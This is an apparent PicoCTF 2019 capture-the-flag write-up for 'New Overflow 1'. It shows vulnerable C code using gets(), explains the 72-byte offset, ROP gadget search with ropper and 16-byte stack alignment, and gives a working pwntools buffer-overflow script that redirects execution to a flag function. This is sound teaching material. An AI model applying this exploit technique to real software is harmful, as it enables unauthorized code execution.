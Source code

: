 [Back](PicoFrontPage.md)

# New Overflow 1
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Source Code

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

### Analysis

Some important points:
* Working with 64-bit which translates to everything being in 8 bytes (64 bits)
* 64-bit programs store arguments in registers, not on the stack (not needed in this question though)

Start off by doing the usual, calculating how many bytes are required to overwrite the instruction pointer (`$rip`) (remember, the registers are 8 bytes now, not 4).

It should come out as 72 bytes to reach the instruction pointer.

Next, we will be searching for an appropriate ROP gadget using `ropper`
ROP gadgets are all series of instructions that conclude with a `ret` instruction.
Command: `ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`
We don't need to store anything inside any instruction so just a normal `ret` instruction will do.

<!-- NewOverflow1Ropper -->
![Image of ropper](../Images/PicoCTF2019/NewOverflow1ropper.JPG)

Find out the address of the `flag()` function however you want (e.g., `x flag`, `disas flag`, `info functions`, etc.) and then construct your script as below.

Note: if you try to run it without the gadget, the program will get stuck at the instruction below:

<!-- NewOverflow1movaps -->
![Image of movaps](../Images/PicoCTF2019/NewOverflow1movaps.JPG)

If you search the instruction up, it'll basically say that it's getting stuck because it's not aligned on a 16-byte boundary (not divisible by 16).
Since we're working with hexadecimal addresses, this means that the address has to end in a 0.

### Pwntools Script

Here is the script:

```python
from pwn import *

p = process('./vuln') # specifying the process

# variables
ret = 0x04005de	# rop gadget
flag = 0x0400767 # flag function address

# payload, p64() because 64-bit (little-endian)
payload = b'A'*72
payload += p64(ret)
payload += p64(flag)

# receive until character
p.recvuntil(b':')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 2](overflow2writeup.md) | [New Overflow 2](newoverflow2writeup.md)
